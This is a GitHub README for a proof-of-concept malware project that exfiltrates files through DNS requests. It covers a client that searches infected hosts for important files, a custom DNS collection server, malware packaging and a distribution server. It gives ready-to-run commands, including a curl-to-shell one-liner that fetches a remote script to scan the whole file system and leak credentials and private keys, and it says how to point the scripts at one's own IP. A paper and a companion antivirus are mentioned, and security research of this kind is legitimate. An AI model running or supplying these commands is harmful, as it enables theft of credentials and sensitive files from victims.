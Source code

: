 # lain 

This project contains a proof of concept for a data exfiltration method that operates by leaking data through DNS requests. This can be used as a component for any malware that needs a communication channel to export sensitive files. For technical and implementation details, please see the included paper.

* The `client` folder contains the code for a prototype malware client that searches an infected host for important files. It uses our communication infrastructure to leak these files through DNS requests.
* The `dns` folder contains our own custom fork of the `dnspython` library, which we use to form the DNS requests on the client side.
* The `dns_server` folder contains our custom DNS server that listens for incoming requests structured using to our custom request format and logs them in a database for later reconstruction.
* The `lib` folder contains code that handles the encoding and packet structuring when breaking apart the files for transit as well as the code for reconstructing them on the server side. This folder also contains utility code for logging and querying the database.
* The `web_interface` folder contains a demonstrative interface for viewing the data chunks logged in the database and allows for the reconstructed data to be visualized.

The accompanying antivirus can be found [here](https://github.com/CrMallard/Antibody)

## Setup
The DNS server has been tested on `Debian 9.4 x64` please expect different results if you do not use that specific distribution of Linux. The underlying implementation of DNS is different for different distros that we tested. Debian is the one we optimized for.

This project requires Python `>=3.5`. We have no guarantees for any other versions or distributions.

### Custom DNS Server
Make sure you have `sqlite3` installed on your computer.
```
pip install -r requirements.txt
sudo python dns_server/malware_server.py # sudo is required to use port 53
```

### Running the Web Server
Make sure you have `sqlite3` installed on your computer.
```
pip install -r requirements.txt
cd web_interface
export FLASK_APP=app.py
flask run --host=0.0.0.0
```

### Packaging Malware and Running Distribution Server
Make sure you are running a distribution of Linux. Install `pyinstaller`. Run the following command.
```
chmod +x package_malware.sh
./package_malware.sh
cd dist
python -m SimpleHTTPServer
```

Now, with the Custom DNS server running, the Web Server running, and the Distribution Server running, you are ready to go.
You can change the bash scripts `infect.sh` and `one_file.sh` to point to your IP address instead of our default one.


### Exfiltrating a file example (will send to our default DNS server)
```
curl https://gist.githubusercontent.com/ColdSauce/a1ff11090994bd6e0c6731dcb407ba7a/raw/9d1456301d493dde762aa0aa7e6cac16e6da6e37/one_file.sh > one_file.sh
chmod +x one_file.sh
./one_file.sh <full path to file you would like to extract>
```

### Scanning entire file system and exfiltrating credentials and private keys
```
curl https://gist.githubusercontent.com/ColdSauce/c65f8d70da7ff04246d5da53534995f5/raw/9b191bbccf99d3da22064b87cd7130404e813442/infect.sh | sh
```

## Authors
* Alvin Lin (omgimanerd)
* Stefan Aleksic (ColdSauce)
* Chris Remillard (CrMallard)
